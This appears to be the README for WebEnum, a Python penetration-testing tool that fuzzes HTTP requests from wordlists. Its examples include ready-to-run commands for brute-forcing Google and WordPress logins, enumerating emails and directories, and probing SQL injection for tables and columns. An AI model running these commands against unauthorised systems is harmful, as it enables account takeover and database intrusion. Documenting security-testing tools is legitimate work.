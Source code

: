 **WebEnum is a tool to enumerate http responses using dynamically generated queries.**

It is a flexible universal tool useful to perform penetration testing to web servers. It is useful to

  * Bruteforce web accounts and passwords
  * Discovery directories, files and users with ~user Apache method
  * Guess table names and columns size in SQL injection
  * Fuzz HTTP requests including GET, POST and HTTP Header
  * Audit webserver behaviours generating multiple HTTP requests

Is available an italian tutorial in [dissecting](http://thissecting.wordpress.com/) security blog.

**Usage**:

`./webenum [-w wordlist] [-h header] [-d POST data] [-m match] URL`


WebEnum generate URL, POST data or headers using special _dynamic string_ (`%%WORD%%, %%WORD[0-9]%%, %%INT%%, %%CHAR%%, %%TABLE%%`). Searched pages are distinguished by other with a little python statement specified in _-m_ option. More explanation after examples.

### Examples ###

**Enumerate files and directories on www.target.com (no wordlist specified, using internal one)**

```
./webenum.py -m "status_code != 404" http://www.target.com/%%WORD%%
```

**Bruteforce Google account user@gmail.com with passwords in _passwords.txt_**

```
./webenum.py -w passwords.txt \
-d "Email=user@gmail.com" \
-d "Passwd=%%WORD1%%" \
-d "accountType=GOOGLE" \
-d "service=lh2" \
-m "'SID' in response" \
"https://www.google.com/accounts/ClientLogin" 
```

**Bruteforce Wordpress account trying users in _users.txt_ with password list in _passwords.txt_**

```
./webenum.py -w users.txt -w passwords.txt \
-d "log=%%WORD1%%" \
-d "pwd=%%WORD2%%" \
-d "wp-submit=Log%20In" \
-m "'login_error' not in response" \
http://myblog.wordpress.com/wp-login.php
```

**Enumerate emails in _emails.txt_ using google search**

```
./webenum.py -w emails.txt -m "'No results found' not in response" http://www.google.com/search?q=\"%%WORD1%%\"
```


**Find table names in SQL injection, using internal wordlist**

```
./webenum.py -m "'Table not found' not in response" \
http://www.target.com/page.php?id=4 UNION SELECT 1,1,1 from %%WORD%%
```


**Find table column number in SQL injection**

```
./webenum.py -m "'Columns not match' not in response" \
http://www.target.com/page.php?id=4 UNION SELECT %%TABLE%% from tablename
```





### _Dynamic strings_ allowed in URL, headers and POST data ###

  * `%%WORD%%`, generate strings fetched from internal wordlist of ~900 common words.
  * `%%WORD[0-9]%%` generate strings fetched from wordlist files specified in -w options.
  * `%%INT%%`, generate integer ranges. Default: from 0 to 50.
  * `%%CHAR%%`, generate character and string ranges. Default: from 'a' to 'z'.
  * `%%TABLE%%`, generate 1,1,...,1 string, useful in sql injection to enumerate columns. Default: from 0 to 50.

INT, CHAR and TABLE default option can be customized using `[end]` or `[start]:[end]`, for example as `%%INT100:110%%`, `%%INT1%%`, `%%CHARaaa:zzz%%`, `%%TABLE100%%`.

### Match ###
Correct response are distinguished with a little python statement. The checkable parameters are _response_ and _status\_code_. Match strings can be

_"'Logged' in response or status\_code == 200"_
_"'Wrong password' in response"_

### POST datas, headers and wordlists ###
_Dynamic strings_ are allowed in POST data (-d) and headers (-h) as in URL. With %%WORD`[0-9]`%%, wordlist files paths are needed. Multiple values are supported:

_`-d "param1=value" -d "param2=value" -d "param3=%%WORD%%"`_
_`-h "User-Agent:Mozilla Firefox %%INT4:12%%.0" -h "Referer:%%WORD1%%"`_
_-w users.txt -w password.txt_

